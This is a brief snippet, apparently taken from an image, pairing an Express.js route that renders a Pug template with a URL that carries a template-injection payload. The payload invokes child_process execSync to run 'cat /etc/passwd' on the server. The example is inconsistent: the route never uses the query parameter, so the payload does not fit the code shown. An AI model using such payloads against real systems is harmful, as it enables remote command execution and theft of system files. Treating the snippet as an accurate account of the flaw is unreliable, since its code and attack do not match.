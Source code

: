 source code:

```
app.get('/product/:id', function(req, res) {
    var productId = req.params.id;
    var product = getProductById(productId);

    var source = `
        html
            body
                h1= page
                h2= product.name
                p= product.description
                p Price: #{product.price}
    `;

    var template = pug.compile(source);
    var context = {
        product: product,
        page: 'Product Detail'
    };
    var html = template(context);

    res.send(html);
});
```

```http://localhost:5000/product/1?page=|process.mainModule.require('child_process').execSync('cat /etc/passwd')|```
